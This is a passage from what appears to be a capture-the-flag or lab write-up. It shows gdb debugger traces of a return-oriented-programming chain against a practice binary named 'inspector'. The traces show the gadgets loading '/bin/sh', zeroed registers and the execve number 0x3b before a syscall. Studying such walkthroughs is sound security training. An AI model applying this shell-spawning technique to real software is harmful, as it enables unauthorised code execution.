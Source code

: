 ```
0x00007fffffffddf0│+0x0000: 0x0000000000000000     ← $rsp
0x00007fffffffddf8│+0x0008: 0x0000000000400646  →  <gadget_5+4> pop rax
0x00007fffffffde00│+0x0010: 0x000000000000003b (";"?)
0x00007fffffffde08│+0x0018: 0x0000000000400625  →  <gadget_1+4> syscall 
0x00007fffffffde10│+0x0020: 0x00000000004004a9  →  <_init+25> ret 
0x00007fffffffde18│+0x0028: 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000
0x00007fffffffde20│+0x0030: 0xd5866103fe1c13b9
0x00007fffffffde28│+0x0038: 0xd586714208b813b9

code:x86:64 ────
     0x400639 <gadget_3+7>     ret    
     0x40063a <gadget_4+0>     push   rbp
     0x40063b <gadget_4+1>     mov    rbp, rsp
 →   0x40063e <gadget_4+4>     pop    rdx
     0x40063f <gadget_4+5>     ret    
     0x400640 <gadget_4+6>     pop    rbp
     0x400641 <gadget_4+7>     ret    
     0x400642 <gadget_5+0>     push   rbp
     0x400643 <gadget_5+1>     mov    rbp, rsp
```
And we can see that now `rsi` is set to 0
Stack pointer is pointing to 0 to pop off

###### Breakpoint 5: Gadget D
```
Breakpoint 5, 0x0000000000400646 in gadget_5 ()
registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe248  →  "/home/kali/Desktop/6-Week/inspector"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffde00  →  0x000000000000003b (";"?)
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x0               
$rdi   : 0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x0000000000400646  →  <gadget_5+4> pop rax
$r8    : 0x0000000000602319  →  0x0000000000000000

stack ────
0x00007fffffffde00│+0x0000: 0x000000000000003b (";"?)     ← $rsp
0x00007fffffffde08│+0x0008: 0x0000000000400625  →  <gadget_1+4> syscall 
0x00007fffffffde10│+0x0010: 0x00000000004004a9  →  <_init+25> ret 
0x00007fffffffde18│+0x0018: 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000

code:x86:64 ────
     0x400641 <gadget_4+7>     ret    
     0x400642 <gadget_5+0>     push   rbp
     0x400643 <gadget_5+1>     mov    rbp, rsp
 →   0x400646 <gadget_5+4>     pop    rax
     0x400647 <gadget_5+5>     ret    
     0x400648 <gadget_5+6>     pop    rbp
     0x400649 <gadget_5+7>     ret    
     0x40064a <main+0>         push   rbp
     0x40064b <main+1>         mov    rbp, rsp
```
Rsp points to `0x3b`
RDX is now 0
###### Breakpoint 6
```
Breakpoint 6, 0x0000000000400625 in gadget_1 ()

registers ────
$rax   : 0x3b              
$rbx   : 0x00007fffffffded8  →  0x00007fffffffe248  →  "/home/kali/Desktop/6-Week/inspector"
```